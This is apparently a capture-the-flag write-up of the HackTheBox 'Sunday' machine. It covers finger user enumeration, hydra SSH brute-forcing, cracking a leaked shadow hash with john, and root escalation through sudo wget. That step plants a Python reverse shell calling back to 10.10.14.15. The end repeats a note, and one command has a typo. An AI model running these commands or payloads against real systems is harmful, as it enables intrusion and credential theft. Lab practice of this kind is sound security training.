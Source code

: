 # HackTheBox Write-Up:  Sunday



> # HackTheBox Write-Up:  Sunday
>
> ![Figure 1 PNG](https://miro.medium.com/max/1400/1*itSt35O3bwfON5arMvzFmA.png)
>
> Sunday is no day off, it's a great machine to practice common Linux privilege escalation methods through proper enumeration & vulnerability chaining.
>
> ```bash
> nmap -Pn -sS -p- 10.10.10.76
> > [OMITTED FOR BREVITY] 
> > ------------------------
> > PORT      STATE SERVICE
> > ------------------------
> > 79/tcp    open  finger  
> > 111/tcp   open  rpcbind  
> > 22022/tcp open  unknown  
> > 34550/tcp open  unknown  
> > 55407/tcp open  unknown
> > Nmap done: 1 IP address (1 host up) scanned in 2262.52 seconds
> ```
>
> There are five ports open, only one I am familiar with.
>
> ```bash
> nmap -A -p79,111,22022,34550,55407 10.10.10.76
> > Host is up (0.025s latency).
> > PORT      STATE SERVICE VERSION  
> > 79/tcp    open  finger  Sun Solaris fingerd 
> > |\_finger: No one logged on\\x0D  
> > 111/tcp   open  rpcbind 2-4 (RPC #100000)  
> > 22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)**  
> > | ssh-hostkey:   
> > |   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
> > |\_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
> > 34550/tcp open  unknown
> > 55407/tcp open  unknown**  
> > [OMITTED FOR BREVITY] 
> > Nmap done: 1 IP address (1 host up) scanned in 62.51 seconds
> ```
>
> A few Google searches finds me a vulnerability involving the Solaris implementation of `fingerd` allowing username enumeration.
>
> ![Figure 2 PNG](https://miro.medium.com/max/1400/1*sqMZaDqu2y-lmsvQjH4dvg.png)[https://www.rapid7.com/db/vulnerabilities/finger-solaris-user-enumeration]
>
> Some more searching leads me to a Perl script we can use to enumerate usernames. We'll download it using wget.
>
> ```bash
> wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl
> ```
>
> ![](https://miro.medium.com/max/1400/1*hEoObsS7-7XbUjCqzxIJGw.png)
>
> ```bash
> # Usage: finger-user-enum.pl [options]
> #        ( -u username | -U file-of-usernames )
> #        ( -t host | -T file-of-targets )
> # Example:
> #        finger-user-enum.pl -U users.txt -t 10.0.0.1  
> finger-user-enum.pl -u root -t 10.0.0.1  
> finger-user-enum.pl -U users.txt -T ips.txt
> ```
>
> A quick `locate username` on my Kali machine pulls all the files containing the word username.
>
> ```bash
> locate username
> ```
>
> `/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt` sounds good to me with an advertised 10 million usernames!
>
> ![](https://miro.medium.com/max/1400/1*YI_7axYe7GBrCuwpoNXmNA.png)
> ![](https://miro.medium.com/max/1400/1*6Bd5LhU9s2Vp0iRo22hGjA.png)
> Quick preview
>
> Using this file, our syntax in our working directory will be:
>
> ```bash
> perl finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76 > userenum.txt
> ```
>
> The scripts output will append the results to a file named userenum.txt. (You do not have to do this, I just donâ€™t like to lose my results.)
>
> ![](https://miro.medium.com/max/1400/1*RF8e7LhDPeXw4YiD9kX80A.png)
>
> The output is a bit messy, but we have a few usernames to attempt a brute-force attack against port \[**22022/tcp open ssh SunSSH 1.3 (protocol 2.0)\]**
>
> The following usernames are the most interesting:
>
> ```bash
> sammy@10.10.10.76: sammy console <Jul 31 17:59>  
> sunny@10.10.10.76: sunny pts/3 <Apr 24, 2018>
> ```
>
> Use the following syntax to brute-force:
>
> ```bash
> hydra -V -f -t 4 -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022
> ```
>
> ![](https://miro.medium.com/max/1400/1*IVLkF60wYFaS2MiBDQwKSg.png)
>
> We obtain the credentials for Sunny!
> `sunny:sunday`
>
> ```bash
> ssh -p 22022 sunny@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*YYgqDCCDPJgJbTlYHgNRZA.png)
>
> Habitually on Linux systems itâ€™s always a good idea to check if a low-privileged user has any sudo permissions.
>
> ```bash
> sudo -l
> ```
>
> We find that we can run the command /root/troll as root without a password.
>
> ![](https://miro.medium.com/max/1400/1*-2T8yLglR_FzVT7p2iBe_g.png)
>
> While traversing and enumerating the files on the machine, I found a copy of the shadow file containing hashed user passwords.
>
> ![](https://miro.medium.com/max/1400/1*f-FCv0hB0-jGhAX8lAZqaw.png)
>
> ```bash
> cat /backup/shadow.backup
> ```
>
> > If we are able to crack Sammy's password hash, we'll be able to grab the `user.txt` flag.
>
> ```bash
> echo "sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::" > hash.txt
> ```
>
> Copy the hash to a file, I named mine `hash.txt`. We'll use `john` to crack the hash.
>
> ```bash
> john -w="/usr/share/wordlists/rockyou hash.txt
> ```
>
> ![](https://miro.medium.com/max/1400/1*iDda9isUCBTW0boxxePOQA.png)
>
> Success.
>
> `Sammy:cooldude!`
>
> Let's grab the `user.txt` found on the desktop, and enumerate the system using Sammy's credentials.
>
> ```bash
> ssh -p 22022 sammy@10.10.10.76
> ```
>
> ![](https://miro.medium.com/max/1400/1*7ZK3ZmjNVjPW4MUt09NH1Q.png)
>
> Habitually, we type sudo -l.
>
> ```bash
> sudo -l
> ```
>
> ![](https://miro.medium.com/max/1400/1*QcCX9NKNdrBdautztxNtHQ.png)
>
> Looks like Sammy can run wget as root without a password. With this, we can overwrite `/root/troll` with a reverse-shell and then run it as root with Sunny's user account.
>
> Copy and paste this Python reverse-shell to a file named `reverse.py` on the target machine.
>
> ```python
> #!/usr/bin/python
> import socket  
> import subprocess  
> import os
> 
> s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
> s.connect(("10.10.14.15",443))  
> os.dup2(s.fileno(),0)  
> os.dup2(s.fileno(),1)  
> os.dup2(s.fileno(),2)  
> p = subprocess.call(["/bin/sh","-i"])
> ```
>
> Host this file with an HTTP server using Python, but before you do â€” ensure to edit the parameters to your local IP/port to receive the shell (I like to use port 443.)
>
> > NOTE:  Later on I ran into trouble because my IP was wrong (see: 10.10.14.5 vs 10.10.14.15)
>
> ![](https://miro.medium.com/max/1400/1*Pn2GutPyPn-ZagP9adm00w.png)
>
> ```bash
> sudo python3 -m http.server 80
> ```
>
> Setup a listener on the designated port.
>
> ```bash
> nc -nlvp 443
> ```
>
> ![](https://miro.medium.com/max/1400/1*SAfBMYPVhdKGWeZBWrItjQ.png)
>
> On the victim machine: we're going to download the reverse shell to replace /root/troll (Sammy), and then run the reverse shell as root (Sunny). Hopefully sending a privileged reverse shell back to us.
>
> ```bash
> sudo wget -O /root/troll http://10.10.14.15/reverse.py
> ```
>
> ![](https://miro.medium.com/max/1400/1*FoXOfkQUZdnfSzAeJXe7Vg.png)
>
> ```bash
> sudo /root/troll
> ```
>
> ![](https://miro.medium.com/max/1400/1*4-vlM2cx8LbdzGwP5KMkOA.png)
>
> > Note: The file resets itself every 5 seconds, so you're going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
>
> ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
>
> You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443 but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
>
> ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)
>
> > Quick ending note: If port 443 is not working properly (All ports under 1000? can only be modified by `root`) either choose a higher port or re-run the command as root [ i.e. `sudo`]Note: The file resets itself every 5 seconds, so you’re going to have to work fast. ( I also had a typo in my IP address, so this could be why I had so many failures)
> >
> > ![](https://miro.medium.com/max/1400/1*c0YHCrXNSdhWj_SWiNSA-w.png)
> >
> > You will notice the port I am listening on had changed from 443 to 1234. I thought there was a firewall blocking port 443… but as I said above, I discovered a typo in my receiving IP address within the reverse-shell.
> >
> > ![](https://miro.medium.com/max/1400/1*LF9GEfw_dyRmE58N6B7tzA.png)

